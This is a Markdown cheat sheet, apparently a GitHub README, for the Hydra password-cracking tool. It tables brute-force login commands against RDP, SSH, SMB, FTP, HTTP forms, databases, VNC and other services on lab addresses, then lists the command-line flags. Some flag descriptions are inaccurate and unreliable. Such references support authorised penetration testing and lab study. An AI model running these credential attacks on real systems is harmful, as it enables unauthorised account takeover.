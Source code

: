 # Hydra


## Installation

```bash
    apt install hydra
```
## Visit Hydra's Github
#### Go to [hydra github](https://github.com/vanhauser-thc/thc-hydra) page
---
## Documentattion
#### Read [Hydra Manual](../manual/hydra.txt)
---

# Hydra command with example

| Services   | Hydra Commands |
|-----------|--------------|
| RDP       | hydra -V -f -L usernames.txt -P passwords.txt rdp://10.0.2.5 |
| SSH       | hydra -l root -P passwords.txt -f ssh://10.0.2.5 -V |
| SMB       | hydra -l Administrator -P passwords.txt -f smb://10.0.2.5 -V |
| FTP       | hydra -l root -P passwords.txt -f ftp://10.0.2.5 -V |
| HTTP Basic Auth | hydra -L users.txt -P password.txt 10.0.2.5 http-get /login/ -V |
| HTTP Post | sudo hydra -l admin -P pass.txt 192.168.182.129  http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed" -V|
|HTTP get|hydra -l admin -P pass.txt 127.0.0.1 http-get-form "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=d4989f615ec17c100c410c986b35de6c;security=low:F=Username and/or password incorrect." -V 
|
| IMAP      | hydra -l root -P passwords.txt -f imap://10.0.2.5 -V |
| MySQL     | hydra -L usernames.txt -P pass.txt -f mysql://10.0.2.5 -V |
| POP3      | hydra -l USERNAME -P passwords.txt -f pop3://10.0.2.5 -V |
| Redis     | hydra -P password.txt redis://10.0.2.5 -V |
| Rexec     | hydra -l root -P password.txt rexec://10.0.2.5 -V |
| Rlogin    | hydra -l root -P password.txt rlogin://10.0.2.5 -V |
| RSH       | hydra -L username.txt rsh://10.0.2.5 -V |
| RTSP      | hydra -l root -P passwords.txt <IP> rtsp |
| SMTP      | hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V |
| SMTP (SSL, Port 587) | hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V |
| Telnet    | hydra -l root -P passwords.txt [-t 32] <IP> telnet |
| VNC       | hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt -s <PORT> <IP> vnc |
---
# Parameter and Usage
| Parameter | Explanation |
|-----------|------------|
| `-l`      | Specifies a single username to use in the attack. |
| `-L`      | Specifies a file containing multiple usernames to use. |
| `-p`      | Specifies a single password to use in the attack. |
| `-P`      | Specifies a file containing multiple passwords to try. |
| `-s`      | Specifies a custom port for the service instead of the default one. |
| `-f`      | Stops the attack when the first valid credential is found. |
| `-V`      | Enables verbose mode, showing each attempt made. |
| `-t`      | Specifies the number of parallel threads to speed up attacks (default: 16). |
| `-u`      | Tries the next username only after all passwords for the current one fail. |
| `-o`      | Saves the output results to a file. |
| `-M`      | Specifies a file with multiple target IPs. |
| `-w`      | Sets the wait time between login attempts. |
| `-S`      | Forces SSL mode for encrypted connections. |
| `-v`      | Enables verbose mode (less detailed than `-V`). |
| `-I`      | Ignores failed login attempts (useful when accounts lock after failures). |
| `-R`      | Resumes a previously interrupted attack. |
| `-x`      | Generates a custom password list with defined lengths and characters. |

